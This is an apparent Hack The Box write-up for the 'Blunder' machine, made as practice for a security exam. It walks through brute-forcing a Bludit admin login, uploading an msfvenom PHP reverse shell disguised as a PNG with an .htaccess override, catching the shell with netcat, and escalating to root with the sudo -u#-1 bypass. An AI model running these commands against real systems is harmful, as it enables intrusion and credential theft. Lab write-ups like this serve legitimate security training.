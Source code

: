 # 🧠 HTB: Blunder — Walkthrough

**OS:** Linux  
**Difficulty:** Easy  
**Focus:** Bludit RCE, Web enumeration, LXD priv esc  
**Tags:** OSCP Prep, TJNull List

---

## 📡 Recon

### Rustscan

```bash
rustscan -a 10.129.190.208 --ulimit 5000 -- -A
```

### /etc/hosts

```bash
echo "10.129.190.208 blunder.htb" | sudo tee -a /etc/hosts
```

### Directory Fuzzing

```bash
ffuf -w /usr/share/wordlists/dirb/big.txt -u http://blunder.htb/FUZZ
```

---

## 🌐 Web Enumeration

- Found `/admin` login panel.
- Bludit version found in HTML source: `3.9.2`

---

## 🔍 Credential Brute-force

### Attempt #1 - Default user

```bash
python3 exploit.py -l http://10.10.10.191/admin/login -u admin -p /usr/share/wordlists/rockyou.txt
```

### Discovering `fergus` from `todo.txt`

```bash
ffuf -w /usr/share/wordlists/dirb/common.txt -u http://10.10.10.191/FUZZ -e .php,.txt,.html -t 64
```

#### Then retry with `fergus`:

```bash
python3 exploit.py -l http://10.10.10.191/admin/login -u fergus -p /usr/share/wordlists/rockyou.txt
```

### Custom Wordlist with `cewl`

```bash
cewl -w output.txt http://10.10.10.191
python3 exploit.py -l http://10.10.10.191/admin/login -u fergus -p ./output.txt
```

✅ **Password found:** `RolandDeschain`

---

## 💥 Authenticated RCE Exploit

### Payload Creation

```bash
msfvenom -p php/reverse_php LHOST=10.10.14.3 LPORT=1234 -f raw -b '"' > evil.png
echo -e "<?php $(cat evil.png)" > evil.png
```

### .htaccess File

```bash
echo "RewriteEngine off" > .htaccess
echo "AddType application/x-httpd-php .png" >> .htaccess
```

> Upload both files via Burp Suite and adjust paths to write to `../../tmp/temp`.

### Trigger Payload

```bash
nc -lvnp 1234
curl http://10.10.10.191/bl-content/tmp/temp/evil.png
```

---

## 🐚 Shell as www-data ➝ Enumerate

### Decompressing `config`

```bash
mv config config.gz
gzip -d config.gz
tar -xvf config
```

---

## 👤 Shell as Hugo

### Grep for Credentials

```bash
grep -ir hugo /var/www
```

Found SHA1 hash → Cracked with CrackStation: `Password120`

```bash
su hugo
```

✅ **User Flag:** `/home/hugo/user.txt`

---

## 🧑‍🔧 Privilege Escalation

### Sudo Permissions

```bash
sudo -l
```

Allowed to run `/bin/bash` as any user except root.

```bash
sudo -u shaun /bin/bash
```

### LXD Check

```bash
id
```

If in `lxd` group, proceed with:

```bash
git clone https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine
lxc image import ./alpine-*.tar.gz --alias myimage
```

*(Didn’t work due to missing command... fallback below)*

---

### Sudo Vulnerability Exploit (version < 1.8.28)

```bash
sudo -V
sudo -u#-1 /bin/bash
```

✅ **Root Flag:** `/root/root.txt`
